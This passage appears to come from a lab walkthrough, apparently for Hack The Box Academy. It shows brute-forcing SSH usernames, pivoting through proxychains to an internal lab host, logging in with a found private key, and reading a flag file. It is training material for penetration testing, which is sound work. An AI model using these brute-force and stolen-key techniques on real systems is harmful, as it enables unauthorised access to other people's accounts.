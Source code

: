 ```shell-session
┌─[eu-academy-5]─[10.10.14.133]─[htb-ac-8414@htb-qopykegfvv]─[~]
└──╼ [★]$ bash ssh-brute.sh 
Trying user: Administrator
<SNIP>
Trying user: {hidden}
Login successful for user: {hidden}
```

Answer: `Josias`

## Secure Shell (SSH)

### Question 5

#### "Read the flag located at the .ssh directory of the user account you accessed using the key:"

Students will reuse the previously established chain of connections (dynamic port-forwarding) and proceed to authenticate to `SRV02` (`172.20.0.52`) using the found private key and user:

Code: shell

```shell
proxychains ssh -i unknown_id_rsa Josias@172.20.0.52 -p 2299
```

```shell-session
┌─[eu-academy-5]─[10.10.14.133]─[htb-ac-8414@htb-qopykegfvv]─[~]
└──╼ [★]$ proxychains ssh -i unknown_id_rsa Josias@172.20.0.52 -p 2299

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.20.0.52:2299  ...  OK

Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

inlanefreight\josias@SRV02 C:\Users\Josias>
```

With obtained SSH session, students will proceed to query the contents of the `C:\Users\Josias\.ssh` directory and query the flag located within it:

Code: shell

```shell
dir C:\Users\Josias\.ssh 
type C:\Users\Josias\.ssh\flag.txt
```

```shell-session
inlanefreight\josias@SRV02 C:\Users\Josias>dir C:\Users\Josias\.ssh 
 Volume in drive C has no label.
 Volume Serial Number is 513B-584F

 Directory of C:\Users\Josias\.ssh

06/26/2024  01:32 PM    <DIR>          .
06/26/2024  01:32 PM    <DIR>          ..
06/26/2024  11:55 AM               408 authorized_keys 
06/26/2024  01:26 PM                25 flag.txt

inlanefreight\josias@SRV02 C:\Users\Josias>type C:\Users\Josias\.ssh\flag.txt
```
